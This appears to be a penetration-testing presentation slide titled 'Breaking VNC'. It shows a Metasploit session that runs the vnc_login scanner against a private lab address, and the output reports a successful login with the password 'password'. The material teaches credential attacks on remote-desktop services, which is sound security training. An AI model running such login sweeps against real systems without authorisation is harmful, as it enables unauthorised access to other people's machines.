

# Breaking VNC
msf5 > use auxiliary/scanner/vnc/vnc_login
msf5 auxiliary(scanner/vnc/vnc_login) > set rhost 172.16.63.132
rhost => 172.16.63.132
msf5 auxiliary(scanner/vnc/vnc_login) > exploit

[*] 172.16.63.132:5900    - 172.16.63.132:5900 - Starting VNC login sweep
[!] 172.16.63.132:5900    - No active DB -- Credential data will not be saved!
[+] 172.16.63.132:5900    - 172.16.63.132:5900 - Login Successful: :password
[*] 172.16.63.132:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/vnc/vnc_login) >